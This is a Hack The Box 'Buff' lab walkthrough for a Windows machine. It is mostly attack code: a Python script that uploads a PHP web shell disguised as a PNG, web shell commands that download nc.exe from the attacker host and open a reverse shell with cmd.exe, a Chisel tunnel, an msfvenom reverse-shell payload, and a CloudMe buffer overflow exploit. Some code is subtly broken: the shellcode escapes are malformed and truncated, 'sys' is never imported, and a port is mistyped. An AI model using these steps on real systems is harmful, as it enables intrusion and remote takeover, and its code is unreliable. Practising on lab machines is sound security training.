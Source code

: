 
# HTB Buff Walkthrough

## Overview
Buff is a Windows machine with an easy difficulty level, running Gym Management System 1.0, which has an unauthenticated remote code execution vulnerability. After scanning the internal network, a service is discovered on port 8888. The installation file for this service is found on the disk, enabling local debugging. By setting up port forwarding, we can access the service remotely and exploit the vulnerability.

## Enumeration

```bash
nmap -sC -sV 10.10.10.198 -oA nmap -Pn
```

**Results:**

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
```

Visiting the site, I found out that it is using Gym Management Software 1.0, which suffers from an unauthenticated file upload vulnerability that can lead to Remote Code Execution (RCE).

From the website of Gym Management Software, we can download the source code and check for the `upload.php`.

## Exploitation

Using a simple Python script, we can upload a shell.

### Python Script:

```python
#!/usr/bin/env python3
import requests

def Main():
    url = "http://10.10.10.198:8080/upload.php?id=test"
    s = requests.Session()
    s.get(url, verify=False)

    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png = {
        'file': (
            'test.php.png',
            PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["cmd"]); ?>',
            'image/png',
            {'Content-Disposition': 'form-data'}
        )
    }

    data = {'pupload': 'upload'}
    
    # Send the POST request to upload the file
    r = s.post(url=url, files=png, data=data, verify=False)
    print("Uploaded!")

if __name__ == "__main__":
    Main()
```

### Code Explanation

1. **Purpose of the Script:**
   The script is designed to exploit a file upload vulnerability on a web application running on `http://10.10.10.198:8080/upload.php`. It uploads a web shell disguised as a PNG image, allowing the attacker to execute commands remotely via the `cmd` parameter in the web shell.

2. **Key Components:**

   - **PNG_magicBytes:**
     PNG files start with specific magic bytes to indicate that they are valid PNG files. This script includes these bytes (`\x89\x50\x4e\x47\x0d\x0a\x1a`) at the start of the uploaded file to fool the application into thinking the file is a real PNG image.

   - **Web Shell Content:**
     The PHP code in the file being uploaded:
     ```php
     <?php echo shell_exec($_GET["cmd"]); ?>
     ```
     This code executes any command provided through the `cmd` parameter in the URL. For example:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=whoami
     ```
     would execute the `whoami` command on the server.

   - **Upload Request:**
     The script creates a fake "image" with the required PNG magic bytes and the PHP web shell:
     ```python
     PNG_magicBytes + '\n' + '<?php echo shell_exec($_GET["cmd"]); ?>'
     ```
     The file is sent to the server using a POST request:
     ```python
     r = s.post(url=url, files=png, data=data, verify=False)
     ```

   - **Accessing the Web Shell:**
     Once uploaded, the web shell will be available at:
     ```
     http://10.10.10.198:8080/upload/test.php
     ```
     Commands can be executed by appending them as the `cmd` parameter:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=<COMMAND>
     ```

     Use Burp Suite to execute this (URL encode):
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=Powershell Invoke-WebRequest -Uri http://10.10.14.6:80/nc.exe -Outfile /users/public/nc.exe
     ```

     Execute the `nc.exe`:
     ```
     http://10.10.10.198:8080/upload/test.php?cmd=/users/public/nc.exe 10.10.14.6 9000 -e cmd.exe
     ```

## Privilege Escalation

The server is communicating with port 8888.

1. **Use Chisel to tunnel communication into the attacker's machine:**

   - [Chisel GitHub](https://github.com/jpillora/chisel)
   
   Upload `chisel.exe` to the victim's machine.

2. **Setup a listening server on the attacker's machine:**

   ```bash
   ./chisel server -p 9999 --reverse
   ```

3. **Listen to the server on the victim's side:**

   ```bash
   chisel.exe client 10.10.14.6:9999 R:8888:127.0.0.1:888
   ```

Once the tunnel is created, craft the buffer overflow exploit.

### Install ExploitDB:

```bash
sudo apt update && sudo apt -y install exploitdb
```

Search for the exploit:

```bash
searchsploit cloudme
```

Found: `CloudMe 1.11.2 - Buffer Overflow (PoC)`  
Location: `windows/remote/48389.py`

```bash
└──╼ [★]$ find / 2>/dev/null | grep 48389.py
/usr/share/exploitdb/exploits/windows/remote/48389.py
```

Copy to `HTB/Buff`:

```bash
cp /usr/share/exploitdb/exploits/windows/remote/48389.py ~/HTB/Buff/exploit.py
```

Now, craft the payload using `msfvenom`:

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=9001 EXITFUNC=thread -b "\x00\x0A\x0D" -f python
```

Put the payload in `exploit.py`:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

import socket
target = "127.0.0.1"
padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30
buf =  b""
buf += b"\xdb\xd7\xd9\x74\x24xf4\xbd\x8e\xc1\x90\xf2\x58"
buf += b"\x31xc9\xb1\x52\x31\x68\x17\x03\x68\x17\x83\x4e"
buf += b"\xc5\x72\x07\xb2\x2e\xf0\xe8\x4a\xaf\x95\x61\xaf"
# More shellcode here...
payload = buf
overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))
buf = padding1 + EIP + NOPS + payload + overrun
try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((target,8888))
    s.send(buf)
except Exception as e:
    print(sys.exc_value)
```

### Setup a Listener on Port 9001

Run the exploit:

```bash
python exploit.py
```
